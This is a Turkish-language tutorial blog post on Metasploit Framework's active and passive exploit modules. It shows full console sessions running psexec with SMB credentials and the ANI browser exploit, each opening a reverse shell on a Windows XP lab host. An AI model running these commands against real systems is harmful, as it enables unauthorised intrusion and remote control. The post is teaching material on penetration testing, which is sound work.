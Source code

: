 ```yaml
---
draft: false

title:  'MSF İçinde Exploit Çeşitleri?'
date: '2017-05-13T12:34:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Metasploit Framework içerisinde tüm exploit modülleri\_aktif\_ve\_pasif\_olarak gruplandırılırlar. 
Aktif Exploit 
Aktif exploitler, belirli bir hedef üzerinde çalışacak ve işlem tamamlanana kadar çalışmaya devam edecektir. Herhangi bir hata ile karşılaştığında çalışmayı durdururlar." 
 
url:  /tr/msf-icinde-exploit-cesitleri/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



Metasploit Framework içerisinde tüm exploit modülleri **aktif** ve **pasif** olarak gruplandırılırlar.



## Aktif Exploit



Aktif exploitler, belirli bir hedef üzerinde çalışacak ve işlem tamamlanana kadar çalışmaya devam edecektir. Herhangi bir hata ile karşılaştığında çalışmayı durdururlar.



Örneğin, Brute-force modülü hedef bilgisayarda bir shell komut satırı açılana kadar çalışır ve işlemi bitince durur. İşlemlerinin tamamlanması uzun zaman alabileceğinden `-j` parametresi kullanılarak arka plana gönderilebilirler.



Aşağıdaki örnekte, ms08_067_netapi explotinin çalışmaya başlatılıp arka plana gönderildiğini görebilirsiniz.


```bash
msf exploit**(**ms08_067_netapi**)** **&gt;** exploit -j
**[*********]** Exploit running as background job.
msf exploit**(**ms08_067_netapi**)** **&gt;**
```



**Örnek**



Bu örnekte, önceden keşif ile bilgileri elde edilen bir hedef bilgisayarın (192.168.1.100) gerekli değişkenleri ayarlanması ve çalışmaya başlaması görülmektedir. Hedef bilgisayarda shell açmak için psexec exploiti ve içerisinde reverse_tcp payload modülü kullanılmaktadır.


```bash
msf **&gt;** use exploit/windows/smb/psexec
msf exploit**(**psexec**)** **&gt;** set RHOST 192.168.1.100
RHOST **=&gt;** 192.168.1.100
msf exploit**(**psexec**)** **&gt;** set PAYLOAD windows/shell/reverse_tcp
PAYLOAD **=&gt;** windows/shell/reverse_tcp
msf exploit**(**psexec**)** **&gt;** set LHOST 192.168.1.5
LHOST **=&gt;** 192.168.1.5
msf exploit**(**psexec**)** **&gt;** set LPORT 4444
LPORT **=&gt;** 4444
msf exploit**(**psexec**)** **&gt;** set SMBUSER victim
SMBUSER **=&gt;** victim
msf exploit**(**psexec**)** **&gt;** set SMBPASS s3cr3t
SMBPASS **=&gt;** s3cr3t
msf exploit**(**psexec**)** **&gt;** exploit

**[*********]** Connecting to the server...
**[*********]** Started reverse handler
**[*********]** Authenticating as user 'victim'...
**[*********]** Uploading payload...
**[*********]** Created \hikmEeEM.exe...
**[*********]** Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
**[*********]** Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
**[*********]** Obtaining a service manager handle...
**[*********]** Creating a new service **(**ciWyCVEp - "MXAVZsCqfRtZwScLdexnD"**)**...
**[*********]** Closing service handle...
**[*********]** Opening service...
**[*********]** Starting the service...
**[*********]** Removing the service...
**[*********]** Closing service handle...
**[*********]** Deleting \hikmEeEM.exe...
**[*********]** Sending stage **(**240 bytes**)**
**[*********]** Command shell session 1 opened **(**192.168.1.5:4444 -&gt; 192.168.1.100:1073**)**

Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32&gt;
```



## Pasif Exploit



Pasif Exploitler, yerel bilgisayarda (kendi bilgisayarımız) pasif olarak çalışır ve dinlemede kalırlar. Hedef bilgisayarın bir şekilde yerel bilgisayara bağlanmasını beklerler.



Pasif exploitler neredeyse her durumda Web tarayıcı, FTP vb. istemciler üzerine odaklanırlar. Eposta ile gönderilen dosyalar içerisinden bağlantılarda da kullanılabilirler. Pasif exploit çalıştığında beklemeye başlar. Ne zaman bir kullanıcı sitedeki linke tıklar veya bir işlem yapar, işte o zaman dinlemedeki pasif exploit sinyali alır ve hedefte bir **shell** açar.



Arka planda çalışan ve dinleme yapan exploitlerin listesini `sessions` komutuna `-l` parametresi vererek görebilirsiniz. Listeden istediğiniz `ID` numaralı işleme gitmek için `-i` parametresini kullanabilirsiniz.


```bash
msf exploit**(**ani_loadimage_chunksize**)** **&gt;** sessions -l

Active sessions
**===============**

  Id  Description  Tunnel
  --  -----------  ------
  1   Meterpreter  192.168.1.5:52647 -&gt; 192.168.1.100:4444

msf exploit**(**ani_loadimage_chunksize**)** **&gt;** sessions -i 1
**[*********]** Starting interaction with 1...

meterpreter **&gt;**
```



**Örnek**



Aşağıdaki örnekte, loadimage_chunksize exploiti ve reverse_tcp payload u kullanılarak bir kullanıcının Web sayfasına girmesi beklenmeye başlanmaktadır. `LHOST` değişkeni yerelde dinleme yapacak bilgisayar IP adresini, `LPORT` ise yerel bilgisayarda dinlenme yapacak port numarasını ifade eder.


```bash
msf **&gt;** use exploit/windows/browser/ani_loadimage_chunksize
msf exploit**(**ani_loadimage_chunksize**)** **&gt;** set URIPATH /
URIPATH **=&gt;** /
msf exploit**(**ani_loadimage_chunksize**)** **&gt;** set PAYLOAD windows/shell/reverse_tcp
PAYLOAD **=&gt;** windows/shell/reverse_tcp
msf exploit**(**ani_loadimage_chunksize**)** **&gt;** set LHOST 192.168.1.5
LHOST **=&gt;** 192.168.1.5
msf exploit**(**ani_loadimage_chunksize**)** **&gt;** set LPORT 4444
LPORT **=&gt;** 4444
msf exploit**(**ani_loadimage_chunksize**)** **&gt;** exploit
**[*********]** Exploit running as background job.

**[*********]** Started reverse handler
**[*********]** Using URL: <a href="http://0.0.0.0:8080/">http://0.0.0.0:8080/</a>
**[*********]**  Local IP: <a href="http://192.168.1.5:8080/">http://192.168.1.5:8080/</a>
**[*********]** Server started.
msf exploit**(**ani_loadimage_chunksize**)** **&gt;**
**[*********]** Attempting to exploit ani_loadimage_chunksize
**[*********]** Sending HTML page to 192.168.1.100:1077...
**[*********]** Attempting to exploit ani_loadimage_chunksize
**[*********]** Sending Windows ANI LoadAniIcon**()** Chunk Size Stack Overflow **(**HTTP**)** to 192.168.1.100:1077...
**[*********]** Sending stage **(**240 bytes**)**
**[*********]** Command shell session 2 opened **(**192.168.1.5:4444 -&gt; 192.168.1.100:1078**)**

msf exploit**(**ani_loadimage_chunksize**)** **&gt;** sessions -i 2
**[*********]** Starting interaction with 2...

Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\victim\Desktop&gt;
```



Anlatılmasını istediğiniz diğer başlıkları bize iletebilirsiniz.



## Video Anlatım


{{< youtube 6liQEKnvzhQE >}}
